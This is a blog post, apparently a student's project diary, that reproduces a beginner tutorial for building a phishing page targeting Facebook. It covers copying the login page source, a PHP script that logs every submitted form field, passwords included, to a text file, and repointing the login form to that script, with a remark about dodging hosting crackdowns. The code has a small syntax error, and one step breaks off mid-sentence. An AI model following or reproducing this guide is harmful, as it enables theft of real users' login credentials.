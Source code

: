 ```yaml
---
layout: post
title: Nhật ký đồ án
subtitle: paper, đồ án
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/lala.png
share-img: /assets/img/path.jpg
tags: [paper]

---
```



<style TYPE="text/css">
code.has-jax {font: inherit; font-size: 100%; background: inherit; border: inherit;}
</style>
<script type="text/x-mathjax-config">
MathJax.Hub.Config({
    tex2jax: {
        inlineMath: [['$','$'], ['\\(','\\)']],
        skipTags: ['script', 'noscript', 'style', 'textarea', 'pre'] // removed 'code' entry
    }
});
MathJax.Hub.Queue(function() {
    var all = MathJax.Hub.getAllJax(), i;
    for(i = 0; i < all.length; i += 1) {
        all[i].SourceElement().parentNode.className += ' has-jax';
    }
});
</script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.4/MathJax.js?config=TeX-AMS_HTML-full"></script>

----------------

### <span style="color: red"> Thứ 3, ngày 21-12-2021 </span>

#### <span style="color: blue"> Topic: Complete Guide to Creating and Hosting a Phishing Page for Beginners </span>

Hello there, Recently I have come across many guides about creating phishing pages. Although the principles behind each guide is similar, most of hosting solutions provided in the guide does not work anymore due to increase in the crackdown of phishing pages by the hosting companies. In this guide, I will go through every step necessary to create and host a phishing page of your choice. Enjoy ! 

##### `Step 1` : <span style="color: green"> Download the HTML index of the Target Webpage </span>

To start off, you need to obtain the HTML index of the page. There are various methods of doing this, there are even templates online for popular sites. In this tutorial, I am going to use the most basic way in order to be as noob-friendly as possible.

###### <span style="color: #cc0080"> Navigate to Your Webpage </span>

In this tutorial, I am going to phish Facebook

![Imgur](https://i.imgur.com/cDLgJBP.png)

###### <span style="color: #cc0080"> View the Source of the Webpage </span>

Depending on your browser, there may be different methods. Normally it is done by right clicking the site and clicking "View Source". I have done that on my browser and a windows should come out similar to this:

![Imgur](https://i.imgur.com/xlyX3xL.png) 

On the box to the right is the source of the website. Which leads on the next step:

###### <span style="color: #cc0080"> Downloading and Saving the Source Code </span>

Select the box, and copy-paste everything in the box to a txt document. Use notepad on windows, and a simple text editing program if you are not using windows. (Don't use programs like Word or Pages because it is really slow). After you have done that, click, "Save As" or whatever option that allows you to save that document. On Notepad it should look like this : 

![Imgur](https://i.imgur.com/xlyX3xL.png)

Change "Save as type" to All files and change the encoding to Unicode.

After that, name the document "index.html", obviously without the speech marks

![Imgur](https://i.imgur.com/2GPbCbg.png)

Congratulations ! You have finished the first step of the tutorial ! 

##### `Step 2` : <span style="color: green"> Creating a PHP file for Password Harvesting</span>

The PHP file is basically the tool that harvest the users password in this scenario. There are several ways you can create this PHP if you have some programming knowledges, but if you don't, just copy my examplar PHP.

```php
<?php
header('Location: facebook.com');
$handle = fopen("log.txt","a")
foreach($_POST as $variable => $value){
    fwrite($handle,$variable);
    fwrite($handle,"=");
    fwrite($handle,$value);
    fwrite($handle,"\r\n");
}
fwrite($handle, "\r\n\n\n\n");
fclose($handle);
exit;
?>
```
Same as above, save the PHP file as "All files" and as "post.php". Change the encoding to Unicode and you should

##### `Step 3` : <span style="color: green"> Modify the Page HTML File to Incorporate Your PHP File in it. </span>

Now, we need to incorporate our PHP file, to receive password that the users end.

###### <span style="color: #cc0080"> Find the Password-Sending Method </span>

First, you need to see how the website deals when the user submits a username-password.

For Facebook, all you need to do is to Ctrl-F and type "=action" in the field.

![Imgur](https://i.imgur.com/adIxmdR.png)

Now, you need to replace everthing in the underlined porion with "post.php", keep the speech marks. (just one set place).

Obviously, this method will be different for other websites. A goos method to find it is by using Inspect Elements tool in most modern browsers and clicking on the login button. Find something similar to the above method.

Please note: You will need to change this later when you actually host the website.






